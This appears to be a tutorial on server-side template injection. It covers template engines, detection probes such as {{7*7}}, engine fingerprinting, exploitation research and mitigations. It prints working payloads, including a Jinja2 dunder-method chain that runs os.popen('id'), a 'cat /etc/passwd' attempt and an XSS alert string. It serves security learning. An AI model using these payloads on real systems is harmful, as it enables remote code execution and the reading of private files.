

### What's it

First things first we need to talk about back-end web frameworks and your templates render engine, a **Template** is a model page file that contains Syntax *Placeholders* capable to receive since a common data then.... a malicious template also known **SSTI (Server-side template injection)**

Each web framework has your own template render engine, that leads us to think that have specific payloads for each framework and programming language, and yes it happens... but all of them has a little similar syntax, what makes our job more easy...

Follow the table of more common template engines utilized by web frameworks

| Framework                              | Language | Engine                      |
| -------------------------------------- | -------- | --------------------------- |
| Flask, FastAPI, Django (Compatibility) | Python   | Jinja2                      |
| Django                                 | Python   | Django Templates            |
| Symfony                                | PHP      | Twig                        |
| Laravel                                | PHP      | Blade                       |
| ASP.NET MVC                            | C#       | Razor                       |
| ASP.NET Core                           | C#       | Razor, Blazor (Client-Side) |

Now that we know what's a template engine... we can talk about the **Server-Side template injection**, let's suppose that we have the follow line of code in someother language:

```python
output = engine.render(f"Hello: {request.data('client-name')}")
```

followed by the client-side behaviour:

```
http://vulnerable-website.com/?client-name=jorge
```


That's a classical condition to a **SSTI** happens, because without no one sanitization on back-end the raw data will be placed on the place of the data expected, but a attacker can presuppose that detail and simply send a:

```
http://vulnerable-website.com/?client-name={{data.databasePassword}}
```

the follow payload imitate a database password extraction via the data object which will be executed on the back-end because the template engine will interpret thanks of the syntax of the syntactic analysis that the engine does.

however...  when we speak about the engine jinja for python frameworks, this engine prevents the directly execution code inside the syntax by using blocked statements as the ```import``` keyword on python, that's means that the follow example will not work.

```
http://vulnerable-website.com/?client-name={{ import os;os.system('cat /etc/passwd') }}
```

to do this similar context work, we need to use **Dunder Methods** (As we know, python are a language that doesn't have a explicit keyword to define names of statements, if the Dunder methods doesn't exists, nothing will prevent that the programmer define a variable *len* and consequently overwrite the function *len()* causing some problems) on python3 to bypass this limitation, take the follow example:

```python
#Payload

''.__class__
.__base__
.__subclasses__()[141]
.__init__
.__globals__['sys']
.modules['os']
.popen("id")
.read()
```

```
http://vulnerable-website.com/?client-name={{ ''.__class__.__base__.__subclasses__()[141].__init__.__globals__['sys'].modules['os'].popen("id").read() }}
``` 

Ok, this really could be a little scary, but read more about **Dunder Methods** and all of that will become more clear... the point here is..... other template engines can implement similar mechanisms (including security).

The payload above imports the lib **OS** from python and execute the **id** command on bash and throw back to the screen in our example, know that we have the theory let's get more deep.

The simplest way to start is to try **Fuzzing the template** by injecting a sequence of special characteres like the follow polyglot example ```${{>%[%'"]}}%\``` in a user-controlled input, after that stay alert about the responses and **spot the differences** between the **common response** and the **given payload**.

If an **error is thrown** we can assume that the application is vulnerable and also you will be could spot what **engine is running** on back-end.

**TIP:** Some contexts the payload can go back to the front which can reflect as XSS (if you trying a XSS first, that is very common) and the SSTI goes unnoticed, it really is valid to validate both.

**TIP:** A similar context to close delimiters like DOM XSS could happen here too.
###### Plaintext context

```js
{{7*7}}
${7*7}
<%= 7*7 %>
``` 

###### Code context

```python
clientData = request.data('greeting')
engine.render("Hello {{"+clientData+"}}", data)
```

In the context above we can see that we have a variable and a argument fetch, on first thought we can try the simple..

```
http://vulnerable-website.com/?client-name=data.name
```

but this will be interpreted as a common data, but if we close the brackets, and put some other data, this will works

```
http://vulnerable-website.com/?client-name=rescue.name}}variable
```

```python
engine.render("Hello {{"+request.data(rescue.name}}variable)+"}}", data)

# Leads 

engine.render(Hello {{request.data(rescue.name}}variable)}}, data)
engine.render(Hello {{rescue.name}}variable)}}, data)
engine.render(Hello {{rescue.name}}variable) # The rest are disconsidered by the parser
```

Making the ```rescue.name``` that mimics a command from the language be executed, same logic of the DOM XSS like ```">```, this works because the as the javascript interpreter the template engine will interpret the language syntax and execute the commands. 

After the initial tests we need to identify what engine is being used on back-end as already said, the template engine has a similar syntax with little differences each other, what makes us only to try a little bunch of payloads, that's happens because are specifically designed **to not clash with HTML tags** what leads in a similar syntax.

If you has a little of luck, the server will be throw an error message, which confirms us the **SSTI condition** and also spots the engine on the other side, to lead us to this suppose error we can try the follow bunch of payloads.

| JAVA       | JS/PYTHON/CMSs | Ruby                                        |
| ---------- | -------------- | ------------------------------------------- |
| ${}        | {{}}           | <%= %>                                      |
| ${7/0}     | {{7/0}}        | <%= 7/0 %>                                  |
| ${}        | {{ foobar }}   | <%= foobar %>                               |
| ${7*7}     | {{ 7*7 }}      | ``                                          |
| ${command} | {{ error }}    | <\?php echo "<script>alert(1)</script>" \?> |

But the manually payload test and search work will help here too.. the biggest truth is that we need to study how the engine interprets out payload, using different syntax and operations, but have a lot of decision tree based on your payload on the internet like this...




---
### How to Detect

1. **Find a user-controlled input**
	- Since a common  `<input type="text/>"` from a parameters on a POST request. 

2. **Look for reflections of our user-controlled input**
	- Take a good look that where our data request will be showed on the page, that's also include modify a data from a page, and be reflected to another page.

3. **Try a bunch of payloads to confirm a SSTI condition**
	- As said... biggest part of the template engine has a similar syntax each other, leading as to have a little payload test list
	    - {{7\*7}}
	    - ${7\*7}
	    - <%= 7\*7 %>
	
4. **Evaluate the engine**
	- After to confirm that the web application is vulnerable to a SSTI, we need to identify the template engine now, this is necessary to compose a valid malicious payload based on the back-end framework, this could be viable using two ways.
		- Fuzzing with a list of payloads, and analyze the pattern of the evaluation
		- Trigger an error (easier way)


---
### How to Exploit

After detect an **SSTI condition and the template engine** we need to understood more about how the template engine parses the template, go to the documentation of the technology and search about the follow topics

- Template authors (Basics Syntax)
- Security Considerations (Useful hints and also the developer couldn't read this)
- Lists of bult-in methods, functions and etc (Something that you could use)
- List of extensions, plugins, library (some may enabled by default and also vulnerable)

### **Nice tools and Wordlists**

- Burpsuite 
- SSTImap (https://github.com/vladko312/SSTImap)

- /usr/share/wordlists/seclists/Fuzzing/template-engines-expression.txt
- /usr/share/wordlists/seclists/Fuzzing/template-engines-special-vars.txt


---
### What's the impact

SSTI has a high level of criticality because it can lead since an RCE which permits the attacker make more sophisticated internal attacks (post-exploitation, persistence and much more) them use the SSTI condition to provoke other kind of vulnerabilities about the context (XSS, LFI, RFI and others).

SSTI can lead:
- Remote code execution
- Read files on back-end
- Session Hijacking
- Provoke other kinds of vulnerability
- Much more creative ways to compromise a host...


---
### How to Mitigate

- Enable the security features of the engine
- Correctly sanitize the user input data
- Execute the application on a sandbox environment (Docker, or some other framework tool that permits)
- Define only necessary permissions for the user that will execute the application
- Security based by multi-defenses, remember to put a WAF, Monitoring and etc


